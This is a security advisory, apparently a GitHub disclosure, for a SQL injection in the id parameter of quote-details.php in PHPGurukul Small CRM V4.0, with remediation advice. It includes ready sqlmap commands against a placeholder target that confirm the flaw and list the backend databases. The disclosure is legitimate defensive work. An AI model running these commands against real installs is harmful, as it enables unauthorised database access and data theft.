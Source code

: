 # PHPGurukul Small CRM in PHP V4.0 /crm/quote-details.php SQL Injection

## NAME OF AFFECTED PRODUCT(S)

- Small CRM in PHP

## Vendor Homepage

- https://phpgurukul.com/small-crm-php/

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- woyom

### VERSION(S)

- V4.0

### Software Link

- https://phpgurukul.com/?sdm_process_download=1&download_id=10412

## PROBLEM TYPE

### Vulnerability Type

- SQL Injection (Error-based, Time-based Blind)

### Root Cause

- In the /crm/quote-details.php file, the id parameter is put directly into the SQL query without cleaning or using prepared statements. Because of this, attackers can add their own SQL code, change the query, and run commands on the database.

<img src="https://woyom-1374329874.cos.ap-nanjing.myqcloud.com/mytyporaimage-20250828142420430.png" alt="image-20250828142420430" style="zoom:50%;" />

### Impact

* Attackers can use this bug to get private database information, change or delete data, increase their privileges, or even stop the system from working. This can cause serious problems for data safety and service stability.

## DESCRIPTION

- While testing *Small CRM in PHP V4.0*, we found a high-risk SQL injection problem in the /crm/quote-details.php page. The issue comes from the id parameter in the GET request, which is used in the SQL query without any check. Because of this, attackers can do error-based, union-based, and time-based blind SQL injection. This makes it possible to leak sensitive information and maybe take over the application.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* SQL Injection (Error-based, Time-based Blind)

### Vulnerability location:

* Parameter: id (GET)

### Proof of Concept Payloads

The problem can be shown using sqlmap:

```
sqlmap -u "http://TARGET-IP/crm/quote-details.php?id=1" --batch
```

Example Results:

![image-20250828150014457](https://woyom-1374329874.cos.ap-nanjing.myqcloud.com/mytyporaimage-20250828150014457.png)

### Attack Demonstration

An attacker can list databases with the following command:

```
sqlmap -u "http://TARGET-IP/crm/quote-details.php?id=1" --batch --dbs
```

Example Result:

The databases from the backend MySQL server are shown.

![image-20250828195557296](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250828195557296.png)

## Suggested Remediation

1. **Use Prepared Statements and Parameterized Queries**: Always use parameterized queries with mysqli or PDO, so user input cannot change SQL commands.
2. **Check and Clean Inputs: **Only accept correct formats (like numbers for id). Block or clean anything else.
3. **Limit Database Permissions: **Do not let the app use accounts with too many rights. Avoid using root.
4. **Do Regular Security Testing:** Review the code and test for bugs often to fix issues before attackers find them.
5. **Update Old Code: **Stop using old mysql_* functions and use mysqli or PDO instead for better security.